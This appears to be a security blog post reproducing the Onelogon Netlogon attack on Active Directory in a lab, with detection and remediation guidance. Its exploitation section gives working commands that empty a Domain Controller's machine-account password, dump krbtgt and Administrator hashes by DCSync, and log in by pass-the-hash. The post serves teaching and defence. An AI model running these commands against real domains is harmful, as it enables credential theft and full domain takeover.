










## Executive Summary

In 2020, Zerologon (CVE-2020-1472) broke Active Directory in seconds. An unauthenticated attacker could take over a Domain Controller over the Netlogon protocol and own the whole domain. Microsoft shipped two patches in response. One was meant to fix the broken cryptography. The other forced signing and sealing on every Netlogon channel.

A new paper shows those patches were not enough. It is titled "Onelogon: Taking Over Active Directory Accounts via Netlogon", by Alexander Neff, Tobias Holl, and Kevin Borgolte of Ruhr University Bochum. It appears at USENIX WOOT 2026.

The researchers found that the cryptographic root cause of Zerologon was never fixed. The broken AES-CFB8 construction is still there. The second patch, enforcement mode, was doing all the real work.

The problem is the legacy exception. Microsoft lets admins exempt accounts from secure RPC through a single policy: *"Domain controller: Allow vulnerable Netlogon secure channel connections."* It is backed by the `VulnerableChannelAllowList` registry value. Any account on that list is exposed to a Zerologon-style attack again.

The impact is the same as the original. An attacker with no domain credentials can forge a Netlogon authentication for a listed account in about 37 minutes. If the account belongs to a Domain Controller, the attacker empties its machine-account password and compromises the domain.

This is not a rare misconfiguration. SpecterOps data in the paper shows the policy still active in 23% of 44 enterprise environments five years after Zerologon. Across a separate set of 270 enterprises, 6 of them (2.2%) were directly exploitable by Onelogon.

A proper fix needs a backward-incompatible rewrite of AES-CFB8. So no patch is expected soon. The only reliable defense today is simple: keep the `VulnerableChannelAllowList` empty, and keep Netlogon enforcement mode on. This post walks through the issue end to end in my `cred.local` lab: building the vulnerable state, detecting it, exploiting it, then remediating it.

## Introduction

The Netlogon Remote Protocol (MS-NRPC) sits at the core of Active Directory. It builds the secure channel between a domain-joined machine and a Domain Controller. It also changes machine-account passwords and relays NTLM authentication.

### How a Netlogon Secure Channel Is Established

A machine and a DC run a challenge-response handshake. The client sends an 8-byte client challenge with `NetrServerReqChallenge`. The server replies with its own 8-byte server challenge.

Both sides then derive a session key. The inputs are the machine-account password hash and the two challenges. For the AES variant, that is HMAC-SHA256 truncated to 16 bytes.

Each side proves it holds the key. It computes a Netlogon credential with `ComputeNetlogonCredential` and sends it through `NetrServerAuthenticate3`.

That credential function is the weak point. In the AES variant it is AES-128 in CFB8 mode with a fixed all-zero IV. One design choice is the root of both Zerologon and Onelogon.

### A Quick Recap of Zerologon

In AES-CFB8 with a zero IV, the first keystream byte is the first byte of `AES(K, 0)`. With an all-zero plaintext, if that first keystream byte is zero, the whole 8-byte output is zero. This holds for roughly 1 key in 256.

Zerologon weaponized that directly. The attacker fixes the client challenge to eight zero bytes. Then it sends an all-zero client credential, with no knowledge of the password. Each handshake derives a fresh key from a fresh server challenge. After about 256 tries, the attacker hits a weak key and the all-zero credential validates -- the DC accepts the connection without any password.

From there the attacker calls `NetrServerPasswordSet2` and sets the target machine-account password to empty. An empty DC password means the whole domain can be dumped with DCSync.

### The Root Cause, Demonstrated

One property makes this work: an all-zero plaintext encrypts to an all-zero ciphertext for about 1 key in 256. The script below models `ComputeNetlogonCredential` and counts the weak keys.

```python
import os
from Crypto.Cipher import AES  # pip install pycryptodome

def netlogon_credential(key: bytes, plaintext: bytes) -> bytes:
    # Netlogon ComputeNetlogonCredential (AES variant):
    # AES-128 in CFB8 mode with a fixed all-zero IV.
    cipher = AES.new(key, AES.MODE_CFB, iv=b"\x00" * 16, segment_size=8)
    return cipher.encrypt(plaintext)

N = 200000
zero_plain = b"\x00" * 8
zero_hits = 0
for _ in range(N):
    k = os.urandom(16)
    if netlogon_credential(k, zero_plain) == b"\x00" * 8:
        zero_hits += 1

print(f"[*] Tested {N} random Netlogon session keys")
print(f"[*] All-zero credential accepted for {zero_hits} keys")
print(f"[*] Empirical probability: 1 in {N/zero_hits:.1f}   (theory: 1 in 256)")
```

The output matches the theory.

```
$ python3 cfb8_demo.py
[*] Tested 200000 random Netlogon session keys
[*] All-zero credential accepted for 805 keys
[*] Empirical probability: 1 in 248.4   (theory: 1 in 256)
```

805 of 200,000 keys accept an all-zero credential. That is 1 in 248, close to the theoretical 1 in 256. This flaw is still reachable today.

### The Two Patches, and the Gap Onelogon Exploits

Microsoft fixed Zerologon with two separate mechanisms. The first was a cryptographic patch meant to stop credential forgery. The second was enforcement mode, which requires signed and sealed Netlogon channels for every account. It became the default in February 2021.

Some legacy devices cannot do secure RPC. So Microsoft left an escape hatch. The allow-list policy lets named accounts keep using the old, insecure channel. It is stored here:

```
HKLM\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters\VulnerableChannelAllowList
```

The enforcement patch was carrying the weight. The cryptographic patch only raised the cost of forging a credential. It never removed the broken AES-CFB8 construction demonstrated above.

So any account on the allow list can still be forged. It just takes more work than the old 256 tries. The paper gives two practical variants. A meet-in-the-middle attack needs no credentials at all and cuts the search to about 2^15 effective work. A 24-bit brute force is available when the attacker controls any computer account.

Both fit inside the DC's 120-second challenge window. The meet-in-the-middle takes about 37 minutes; the 24-bit variant takes about 32 minutes. If the account belongs to a DC, the attacker owns the domain.

## Lab Environment

| Role | Host | Address | Notes |
|---|---|---|---|
| Domain Controller | `dc01` | `192.168.231.47` | Domain `cred.local` (NetBIOS `CRED`) |
| Vulnerable account | `dc01$` | - | DC machine account, placed on the allow list |
| Attacker host | `kali` | `192.168.231.187` | Onelogon + Impacket; no domain credentials needed for the exploit |
| Domain Admin (scan only) | `Administrator` | - | Password `<redacted>`, used only to confirm the exposure |

## Preparing the Environment

### Reproduce the Vulnerable Setup

This step builds the lab and plants the misconfiguration. In a real environment this allow-list entry is exactly what you hunt for. Here I add it on purpose so the attack is reproducible.

Add the DC machine account to the allow list through Group Policy. The `WD` SID means Everyone, which covers `dc01$`.

```powershell
Set-GPRegistryValue -Name "Default Domain Controllers Policy" `
    -Key "HKLM\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters" `
    -ValueName "VulnerableChannelAllowList" `
    -Type String `
    -Value "O:BAG:BAD:(A;;RC;;;WD)"

gpupdate /force
```

Confirm the value landed on the DC's live registry, not just in the policy object.

```powershell
Get-ItemProperty `
  -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters" `
  -Name VulnerableChannelAllowList
```


_GPMC Settings report: the allow list appears under Computer Configuration > Administrative Templates > Extra Registry Settings, because it is set as a registry policy rather than a Security Option._

### Install the Tooling

Pull the Onelogon project onto Kali and install it into a virtualenv. The `pip install .` gives you the `onelogon` command. Impacket already ships with Kali.

```bash
git clone https://github.com/rub-softsec/onelogon
cd onelogon
python3 -m venv .venv && . .venv/bin/activate
pip install .
```

## Vulnerability Detection

### Scan the Domain Controller

The scanner reads the registry hive and the SYSVOL share. It prints the security descriptor for any allow-listed account. The scan needs Domain Admin rights. The exploit does not.

```bash
python -m scanner.scanner --dc-ip 192.168.231.47 -u Administrator -p '<password>' -d cred.local
```

A positive result means the DC is vulnerable. The scanner finds nothing in the SYSVOL share but reads the value straight from the live registry.

```
[-] No matching policies found in SYSVOL Share.
[+] Found VulnerableChannelAllowList registry configuration: O:BAG:BAD:(A;;RC;;;WD)
```

A healthy DC returns nothing. The registry value is simply absent.

```
[-] No matching policies found in SYSVOL Share.
[-] Error while querying registry: RRP SessionError: code: 0x2 - ERROR_FILE_NOT_FOUND
    - The system cannot find the file specified.
```


_The scanner confirms `dc01$` is exposed on the allow list._

The descriptor it prints, `O:BAG:BAD:(A;;RC;;;WD)`, ends in `WD` - the *Everyone* SID. So the entry exempts every machine account in the domain, not just `dc01$`. A specific SID would scope it to one account; `WD` opens the door for all of them.

The scope of what is listed determines severity:

| Allow-list principal | Severity | Impact |
|---|---|---|
| Everyone / Authenticated Users | Critical | Any DC machine account is reachable; full domain compromise with no credentials |
| Specific DC machine account | Critical | Targeted DC falls; DCSync gives the domain |
| Specific non-DC machine account | High / Medium | Lateral movement from the compromised host |

### Native Detection Signals

No dedicated tooling is needed to catch this. Watch for a non-empty `VulnerableChannelAllowList` on any Domain Controller. Watch the Netlogon operational log for the events below -- events 5830 and 5831 are the key signals, firing each time an account is permitted through on the legacy channel. Also watch for machine-account password changes through `NetrServerPasswordSet2`. A DC machine password that suddenly goes empty is a strong sign of an active takeover.

| Event ID | Meaning |
|---|---|
| 5827 | Denied - machine account (not on allow list) |
| 5828 | Denied - trust account (not on allow list) |
| 5830 | Allowed - machine account permitted via VulnerableChannelAllowList |
| 5831 | Allowed - trust account permitted via VulnerableChannelAllowList |
| 5805 | Session setup from machine failed to authenticate |

## Exploitation

> **Warning:** This section documents a lab reproduction for educational purposes. Run these steps only in an isolated environment you control. The attack empties a machine-account password in Active Directory, breaking domain connectivity for that host until the password is restored.
{: .prompt-warning }

### Choose an Attack Variant

The paper gives four options. Pick by what you have and what you need.

| Variant (paper section) | Computer account | Notes | Expected time |
|---|---|---|---|
| Meet-in-the-middle (4.5) | Not required | Primary, fully unauthenticated | ~37 min |
| 24-bit brute force (4.4) | Required | Faster search with a known account | ~32 min |
| Naive 32-bit (with account) | Required | Baseline only | ~18.9 h (marginal) |
| Naive 32-bit (no account) | Not required | Throttled by the 120 s window | ~30 days |

### Run the Meet-in-the-Middle Attack

This is the primary variant. It needs no credentials. You only supply the DC's IP, its name, and the vulnerable account.

```bash
onelogon --dc-ip 192.168.231.47 --dc-name dc01 --username 'dc01$'
```

The tool binds to Netlogon and negotiates the AES flags. Then it brute-forces a valid credential across successive 120-second windows. On success it empties the account password.

```
[+] Successfully bound to Netlogon RPC on dc01 (192.168.231.47)
[+] Using flags: (0b100001000111111111111111111111)
    1: R Supports NetrServerPasswordSet2
    1: W Supports AES 128-bit CFB and SHA2
    0: Y Supports secure RPC authentication      <-- 0 = insecure channel permitted
[*] Estimated total tries without flushing: 2^16 / 2

[+] Starting the brute force attack...
[*] TRIES:   18546, average tries per cycle: 2482
[*] Estimated progress: ~56%, average time per attempt: 0.057 seconds
[+] !!!Successfully authenticated dc01$ on dc01 with b'\x00\x00\x00\x00\x11\x11\x00\xe9'!!!
[+] Password set successfully to empty string!
[+] Successfully set the password of dc01$ to an empty string!
```

The flag dump is worth a look. Flag `W` shows the AES-CFB8 construction is active. Flag `Y = 0` shows the channel does not require secure RPC. That is only possible because `dc01$` is on the allow list.

One note on timing. The attack is probabilistic, so the run is not fixed. In my lab it landed after roughly 16 to 18 cycles, near the 40-minute mark. The bottleneck is the per-attempt round-trip to the DC, not CPU. Run the attack from a host on the DC's own subnet for the best results.


_The attack succeeds and empties the `dc01$` machine-account password._

### DCSync the Domain

`dc01$` now holds an empty password. Authenticate as the machine account with a null secret. Then replicate the domain secrets over DRSUAPI.

```bash
impacket-secretsdump 'cred.local/dc01$@192.168.231.47' -no-pass -just-dc
```

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
cred.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:<ADMIN_NT_HASH>:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:<KRBTGT_NT_HASH>:::
```


_DCSync with the empty `dc01$` secret yields the `krbtgt` and Administrator hashes._

The Administrator hash enables pass-the-hash and full control of `cred.local`. The `krbtgt` hash enables Golden Tickets.

```bash
impacket-psexec -hashes ':<ADMIN_NT_HASH>' 'cred.local/Administrator@192.168.231.47'
```

> **Destructive side effect:** `NetrServerPasswordSet2` resets the machine-account password in Active Directory only. The host (`dc01`) still caches its old password locally. After the exploit, `dc01` cannot re-authenticate to the domain, and replication breaks. In a lab this is expected. To recover in a controlled environment, run `Test-ComputerSecureChannel -Repair` on the affected host or `nltest /sc_reset:cred.local` from a domain-joined machine.
{: .prompt-danger }

## Mitigation Steps

The cryptographic flaw stays unpatched, so remediation patches nothing. The fix is to take the account off the allow list. That sounds like one action, but the same setting can live in more than one place, and clearing only one of them leaves the DC exposed. It is a single registry value:

`HKLM\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters\VulnerableChannelAllowList`

But it can be set from several places, and a thorough cleanup has to clear each one:

- **GPO Security Option** - Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options > *"Domain controller: Allow vulnerable Netlogon secure channel connections."*
- **Local Security Policy** - `secpol.msc` > Security Settings > Local Policies > Security Options > the same setting, set on the DC itself.
- **GPO registry policy** - a registry preference, or an *Extra Registry Settings* entry on `Netlogon\Parameters`.
- **Live registry** - a direct edit with `regedit` or `reg.exe` on the DC.

The `Netlogon\Parameters` key tattoos. Removing the value from one place does not always remove it from the live registry. Work through the surfaces in order, then confirm the DC is clean.

**Step 1.** On the Domain Controller, open Group Policy Management (`gpmc.msc`). Expand the Domain Controllers OU and note every GPO linked to it. The Default Domain Controllers Policy is the usual one.


_The GPOs linked to the Domain Controllers OU._

**Step 2.** Edit that GPO. Go to Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options and open *"Domain controller: Allow vulnerable Netlogon secure channel connections."* Remove every account from the allow list, or set the policy to Not Defined.


_The security option cleared, so no account is exempt from secure RPC._

**Step 3.** The value may also sit in the GPO as a registry policy. If it was added as a Group Policy Preference, open Computer Configuration > Preferences > Windows Settings > Registry, right-click the `VulnerableChannelAllowList` item, and choose Delete.


_Removing the value where it was set as a Group Policy registry preference._

More often it shows up under Administrative Templates > Extra Registry Settings in the GPMC Settings report. The console will not delete it there. That view is read-only, because the value has no matching policy template.


_The value appears in the settings report, but this view cannot remove it._

Remove it with PowerShell instead.

```powershell
Remove-GPRegistryValue -Name "Default Domain Controllers Policy" `
    -Key "HKLM\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters" `
    -ValueName "VulnerableChannelAllowList"
```

**Step 4.** Open `regedit` on the DC and browse to `HKLM\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters`. Delete the `VulnerableChannelAllowList` value if it is still there. This clears the tattooed copy.


_The tattooed `VulnerableChannelAllowList` value on the DC, ready to delete._

**Step 5.** Run `gpupdate /force`, then scan the DC again. A clean DC returns a negative result.


_After remediation, the scanner finds no vulnerable accounts._

## Conclusion

Onelogon is a demonstration that partial patches leave exploitable gaps. Microsoft closed the most direct Zerologon path in 2020, but the underlying AES-CFB8 design flaw stayed in place. The enforcement policy is doing the real work, and the `VulnerableChannelAllowList` is a documented way to opt out of it for named accounts.

Microsoft has declined to fix it. The researchers disclosed Onelogon to Microsoft in December 2025. Microsoft chose not to ship a patch. Its position is that any use of Netlogon without secure RPC is already "documented vulnerable," and that the group-policy guidance already warns exempted accounts may be "at risk." The authors pushed back. An "at risk" note is not a confirmed flaw that an attacker can exploit in under 40 minutes. They took the issue to CERT-Bund instead. No fix is expected.

The fix is not a patch -- it is a configuration audit. Any non-empty allow-list entry on a Domain Controller is a direct path to domain compromise with no credentials required. The scan takes minutes; removing the entry takes seconds. The exposure window is exactly as long as that value sits in the registry.

## References

- Neff, Holl, Borgolte - *Onelogon: Taking Over Active Directory Accounts via Netlogon*, USENIX WOOT 2026: [Paper (PDF)](https://softsec.rub.de/files/pdf/woot2026-onelogon.pdf) - [Project page](https://softsec.rub.de/publications/woot2026-onelogon/)
- Onelogon scanner and proof-of-concept - [github.com/rub-softsec/onelogon](https://github.com/rub-softsec/onelogon)
- Tom Tervoort (Secura) - *Zerologon: Unauthenticated Domain Controller Compromise* (CVE-2020-1472): [Whitepaper](https://www.secura.com/whitepapers/zerologon-whitepaper)
- Microsoft - *CVE-2020-1472 Netlogon Elevation of Privilege Vulnerability*: [MSRC](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-1472)
- Microsoft - "How to manage the changes in Netlogon secure channel connections (KB4557222)"
- Impacket - [github.com/fortra/impacket](https://github.com/fortra/impacket)

---

*This research is published for educational purposes. Testing this technique against systems without explicit authorization is prohibited.*
